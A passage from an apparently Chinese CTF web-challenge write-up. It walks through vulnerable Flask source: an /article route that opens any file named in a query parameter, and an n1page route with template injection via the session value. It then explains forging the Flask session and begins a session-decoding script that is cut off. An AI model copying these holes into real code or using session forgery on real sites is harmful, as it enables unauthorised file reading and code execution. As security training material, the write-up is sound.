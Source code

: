 ```python
def index():
	return render_template("main.html")


@ app.route('/article', methods=['GET'])
def article():
	error = 0
	if 'name' in request.args:
    	page = request.args.get('name')
	else:
    	page = 'article'

	if page.find('flag') >= 0:
		page = 'notallowed.txt'

	try:
    	template = open('/home/nu11111111l/articles/{}'.format(page)).read()
	except Exception as e:
    	template = e
	return render_template('article.html', template=template)

if __name__ == "__main__":
	app.run(host='0.0.0.0', debug=False)
```

8. 在 pycharm 中搭建环境，通过阅读源码知目录下有 `flag.py`，直接访问发现没有权限。继续阅读源码，发现`n1page`方法中存在模板注入，但是存在过滤
```python
	if n1code is not None:
		n1code = n1code.replace(".", "").replace("_", "").replace("{", "").replace("}", "")
```
不过在接下来的对 session[`n1code`] 仅仅是简单判定是否为空，可以利用 falsk 的 session 伪造实现注入。
```python
  if session['n1code'] is not None:
	template = '''
		<h1>N1 Page</h1> <div class="row> 
		<div class="col-md-6 col-md-offset-3 center"> 
		Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>?
		 </div> </div> ''' % session['n1code']
```

9. 首先通过代码的逻辑，程序进入`n1page`方法，也就是访问`host/n1page`的时候，所以应该是抓访问`http://172.19.0.1:5000/n1page`的包。
  ![afr3](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_afr3_n1page_session.png)

10. 获取这个包的 session，然后使用解码函数解密，确定 session 字符串形式`{'n1code': None}`，需要构造 payload 去替换 none。
```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
```